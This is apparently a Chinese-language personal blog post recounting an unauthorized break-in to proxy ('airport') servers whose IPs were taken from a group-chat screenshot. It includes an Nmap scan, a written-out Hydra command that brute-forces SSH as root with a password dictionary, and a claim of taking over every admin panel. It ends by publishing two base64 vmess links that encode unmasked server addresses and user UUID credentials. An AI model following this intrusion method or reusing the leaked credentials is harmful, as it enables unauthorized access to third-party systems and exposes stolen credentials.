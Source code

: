 ```yaml
---
title: 记一次非法搭建机场获取权限
author: APT - 0x44LL
date: 2021-12-25
category: Jekyll
layout: post
---
```


## 天网恢恢 疏而不漏
![smiley](/public/DocsPics/20220207155219.png)

根据wx群聊看到有人发机场截图并暴露了IP地址
![smiley](/public/DocsPics/20220207155341.jpg)
于是全部记录了下来；
依次排列好；
168.63.xxx.106
20.187.xxx.80
20.205.xxx.204
20.212.xxx.178

快速Nmap扫描了一波；
![smiley](/public/DocsPics/20220207155424.png)

看到22端口开放
Hydrawin版本加载字典进行端口爆破，当然要使用上我亲自开过光的字典和飞升过的动态IP了

```
hydra.exe -l root -P 22 开光字典.txt -vV -o ssh.log -e ns 127.0.0.1 ssh
```

![smiley](/public/DocsPics/20220207155510.png)

**于是就这样进入了服务器...**


数据库
面板账户唯一登入密码
![smiley](/public/DocsPics/20220207155528.png)

所有的管理后台面板全部拿到权限
![smiley](/public/DocsPics/20220207155602.png)
![smiley](/public/DocsPics/20220207155713.png)

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1GMlMtSEstODAtV1MiLAogICJhZGQiOiAiMTY4LjYzLjIxMi4xMDYiLAogICJwb3J0IjogODAsCiAgImlkIjogIjRjOTA4ZTgxLWM2YzYtNGNiNy1lZDQ5LWRjODhlN2NkZjkxNCIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1CMVMtSEstODAtV1MiLAogICJhZGQiOiAiMjAuMjA1LjExOC4yMDQiLAogICJwb3J0IjogODAsCiAgImlkIjogIjhjYzgwOWQzLTk1YzAtNDg4Yi1jZmUwLTk4ZWVlZDM4MzYzYiIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```
![smiley](/public/DocsPics/20220207155731.png)
很遗憾的是这些服务器都没什么东西；

查询了一下是刚开不久的；
